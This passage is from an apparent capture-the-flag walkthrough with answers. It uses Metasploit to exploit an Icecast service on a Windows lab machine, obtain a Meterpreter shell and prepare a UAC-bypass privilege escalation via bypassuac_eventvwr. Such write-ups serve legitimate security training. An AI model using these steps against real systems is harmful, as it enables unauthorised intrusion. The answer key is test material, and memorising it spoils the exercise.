 5. Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.
```
No answer needed
```
6. Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank? 
```
RHOSTS
```
7.  Let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command exploit 
```
No answer needed
```

# Task 4

1. Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
```
meterpreter
```
2.  What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room. 
```
Dark
```
3. What build of Windows is the system?
```
7601
```
4. Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?
```
x64
```
5. Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*
```
No answer needed
```
6. Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
```
exploit/windows/local/bypassuac_eventvwr
```
7. Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell. 
```
No answer needed
```
8.  Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT` 
```
No answer needed
```
9. Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`
```
No answer needed
```
10. Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?